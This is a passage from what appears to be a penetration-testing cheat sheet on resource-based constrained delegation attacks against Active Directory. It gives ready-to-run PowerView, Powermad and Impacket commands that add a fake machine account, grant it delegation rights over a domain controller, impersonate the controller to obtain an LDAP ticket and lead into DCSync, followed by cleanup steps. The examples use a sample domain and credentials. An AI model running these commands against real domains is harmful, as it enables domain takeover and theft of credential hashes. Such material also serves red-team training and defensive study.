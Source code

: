 Cleanup:

```
PowerView3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $cred
Powermad > Remove-MachineAccount -MachineAccount fakemachine1337
```


#### PowerView 4.0

Configure RBCD on the vulnerable host (DC01):

```
PowerView4 > Set-DomainRBCD DC01 -DelegateFrom fakemachine1337 -Verbose
```

Cleanup:

```
PowerView4 > Set-DomainRBCD DC01 -Clear -Verbose
```



### RBCD from Linux

Add new machine account:

```
$ addcomputer.py -computer-name 'fakemachine1337' -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC02.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
```

Configure RBCD on the vulnerable host:

```
...rbcd-attack...
Or
...rbcd_permissions...
```

Ask TGS for LDAP:

```
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'DC01' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337:'Passw0rd!'
$ ...DCSync...
```


#### rbcd-attack

* [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

Configure RBCD on the vulnerable host (DC01):

```
$ python3 rbcd.py -f fakemachine1337 -t DC01 -dc-ip 10.10.13.37 megacorp.local/snovvcrash:'Qwe123!@#'
```
